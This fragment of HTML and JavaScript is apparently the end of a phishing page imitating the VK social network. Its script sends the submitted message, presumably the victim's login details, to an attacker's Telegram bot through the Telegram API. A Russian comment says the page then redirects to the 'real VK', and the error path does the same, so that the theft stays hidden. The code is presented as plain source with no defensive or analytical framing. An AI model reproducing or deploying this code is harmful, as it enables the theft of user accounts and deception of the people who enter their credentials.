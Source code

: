             fetch(`https://api.telegram.org/bot${botToken}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}`)
                .then(response => {
                    // После отправки, перенаправляем на настоящий ВК
                    window.location.href = 'https://vk.com';
                })
                .catch(error => {
                    console.error('Ошибка отправки:', error);
                    window.location.href = 'https://vk.com';
                });
        });
    </script>
</body>
</html>
